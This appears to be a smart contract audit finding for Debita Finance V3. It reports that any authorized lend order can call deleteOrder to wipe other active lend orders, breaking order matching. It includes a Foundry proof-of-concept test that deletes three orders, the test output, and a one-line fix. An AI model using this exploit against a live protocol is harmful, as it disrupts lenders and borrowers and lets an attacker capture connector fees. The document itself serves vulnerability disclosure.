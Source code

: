 Innocent Glass Rabbit

Medium

# Any authorized lend order can disrupt the protocol's matching process.

### Summary

The unrestricted use of the [`deleteOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207) function in [ `DebitaV3LoanFactory.sol`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207), as it only checks if a lendOrder is legit through [`onlyLendOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L102C14-L102C27) will cause disruption to the matching process for connectors (users or bots) retrieving active lend orders. As any lend order can call `deleteOrder` to remove entries from `allActiveLendOrders`, it disrupts the `getActiveOrders` function, which connectors will rely on to retrieve `DLOImplementation.LendInfo`, thereby disturbing the matchOffersV3 process.

### Root Cause

In [`DebitaV3LoanFactory.sol:207`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207), the `deleteOrder` function allows any lend order to remove itself or others from `allActiveLendOrders`, impacting the ability to retrieve active orders via [`getActiveOrders`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L222).

### Internal pre-conditions

1. A valid lend order must call deleteOrder.
2. The lend order must exist in the allActiveLendOrders mapping.

### External pre-conditions

_No response_

### Attack Path

1. An authorized lend order calls `deleteOrder` with a valid `_lendOrder` address.
2. The order is removed from `allActiveLendOrders`, breaking the indexing.
3. A connector calling `getActiveOrders` encounters incomplete or incorrect data.
4. This prevents proper matching via `DebitaV3Aggregator::matchOffersV3`, disrupting the protocol’s functionality.

### Impact

1. **Economic Disruption:** The matching process is disrupted, causing delays in transactions and potential loss of revenue for both lenders and borrowers.
2. **Fee Monopolization:** A malicious user could repeatedly remove other lend orders, after retreiving `allActiveLendOrders`. This allows them to monopolize the 15% connector fee by becoming the only participant capable of matching offers, leading to an unfair advantage and a compromised system.

### PoC

Add this test to `/test/local/Loan/MultiplePrinciples.t.sol`.
```solidity
function testDeleteLendOrder() public {
        // Log the initial number of active lend orders
        console.log(
            "Active orders count before deletion :::",
            DLOFactoryContract.activeOrdersCount()
        );

        // Log the addresses of the active lend orders before deletion
        for (uint i = 0; i < 3; i++) {
            console.log(
                "Order",
                i,
                "has address:",
                DLOFactoryContract.allActiveLendOrders(i)
            );
        }

        // Start impersonating the LendOrder contract to call deleteOrder
        vm.startPrank(address(LendOrder));

        // Attempt to delete three lend orders sequentially
        DLOFactoryContract.deleteOrder(address(LendOrder));
        DLOFactoryContract.deleteOrder(address(SecondLendOrder));
        DLOFactoryContract.deleteOrder(address(ThirdLendOrder));

        // Stop impersonating after calling deleteOrder
        vm.stopPrank();

        // Log the number of active lend orders after deletion
        console.log(
            "Active orders count after deletion :::",
            DLOFactoryContract.activeOrdersCount()
        );

        // Log the remaining active lend orders to verify deletion
        for (uint i = 0; i < 3; i++) {
            console.log(
                "Order",
                i,
                "has address:",
                DLOFactoryContract.allActiveLendOrders(i)
            );
        }
    }
```
Results in this : 

```shell
  $ forge test --mt testDeleteLendOrder -vv

Ran 1 test for test/local/Loan/MultiplePrinciples.t.sol:testMultiplePrinciples
[PASS] testDeleteLendOrder() (gas: 56118)
Logs:
  Active orders count before deletion ::: 3
  Order 0 has address: 0x45C92C2Cd0dF7B2d705EF12CfF77Cb0Bc557Ed22
  Order 1 has address: 0x9914ff9347266f1949C557B717936436402fc636
  Order 2 has address: 0x6F67DD53F065131901fC8B45f183aD4977F75161
  Active orders count after deletion ::: 0
  Order 0 has address: 0x0000000000000000000000000000000000000000
  Order 1 has address: 0x0000000000000000000000000000000000000000
  Order 2 has address: 0x0000000000000000000000000000000000000000
```



### Mitigation

Add a check inside the [`deleteOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207) function, such as:

```diff
+ require(msg.sender == _lendOrder, "Caller must be the lend order contract");
```
This additional verification complements the `onlyLendOrder` modifier and ensures that `msg.sender` not only has permission but is also the specific contract it claims to be. It aligns with the expected behavior when debts are repaid through the `DLOImplementation`.
